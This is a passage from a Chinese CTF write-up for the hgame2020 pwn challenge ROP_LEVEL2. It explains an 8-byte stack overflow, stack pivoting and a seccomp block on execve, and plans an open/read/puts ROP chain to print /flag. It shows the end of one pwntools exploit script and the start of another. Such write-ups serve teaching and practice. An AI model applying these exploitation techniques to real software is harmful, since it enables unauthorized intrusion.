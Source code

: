 ```python
ru('Terrorist Win\n')
addr = u64(rc(6).ljust(8,'\0'))
log.hexdump(addr)
info_addr("ret",addr)

ru('~~！~？~…____\n')

sl('')

p.interactive()
```



### week3

week3开题的时候...我正在看CCTV-8直播的绝代双骄，古龙的武侠小说写的真是精彩呀，新版的绝代双骄电视剧的还原度很高，而且排在春节黄金档，焉能不看！于是week3只做了一道题，没想到还拿了2血，剩下的都是堆的题，不会啊...

### ROP_LEVEL2

 - 题目描述：-
 - 题目地址：[ROP](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/hgame2020/pwn/week3_1/ROP)
 - 考察点：ROP攻击、栈迁移、`seccomp`
 - 难度：中等
 - 分值：200
 - 完成人数：27

#### 0x0 背景姿势

这题和week1的ROP_LEVEL0差不多，但是开启了`seccomp`，且栈溢出只有8字节

`seccomp`用于关闭不必要的系统调用，比如`SYSCALL execve` 

#### 0x1 漏洞分析

- 栈溢出8字节，需要栈迁移

- 用`seccomp`关闭了`SYSCALL execve` 

  ```c
    v0 = seccomp_init(0x7FFF0000LL);
    seccomp_rule_add(v0, 0LL, 0x3BLL, 0LL);
    seccomp_load(v0);
  ```

- 不能用`system('/bin/sh')`，于是用`open+read+puts`打开`/flag`文件并打印

  - `open('/flag',0,0x100)`
  - `read(4,bss_base,0x100)`
  - `puts(bss_base)`

#### 0x2 exp

```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini

from pwn import *

local_file  = './ROP'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = local_libc # '../libc.so.6'

is_local = False
is_remote = False

if len(sys.argv) == 1:
```